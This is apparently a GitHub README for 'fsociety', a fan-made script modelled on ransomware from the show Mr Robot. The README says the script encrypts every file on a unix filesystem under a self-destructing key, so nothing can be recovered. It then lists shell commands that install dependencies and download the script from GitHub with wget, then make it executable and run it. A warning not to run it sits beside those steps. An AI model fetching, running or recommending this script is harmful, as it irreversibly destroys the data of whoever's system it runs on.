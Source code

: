 # fsociety
__WARNING: do not actually execute this. You will not be able to recover the files.__

This is intended to encrypt every bit of data in a unix filesystem using 256-bit AES with 
a self-destructing, randomly generated key.

The [fuxsocy.py](https://i.imgur.com/tAvWBe6.jpg) script is based on Darlene's malware [shown](https://gifyu.com/images/ezgif.com-video-to-giff0eda.gif) in Mr Robot

## S2E1:
![alt-text](https://i.imgur.com/6RIogYa.jpg)

### Dependencies:

* python
* pycrypto

```shell
sudo apt install python python-pip
```
```shell
sudo pip install pycrypto
```

### Usage:

```shell
wget https://raw.githubusercontent.com/joekendal/fsociety/master/fuxsocy.py
```
```shell
sudo chmod +x fuxsocy.py
```
```shell
./fuxsocy.py
```
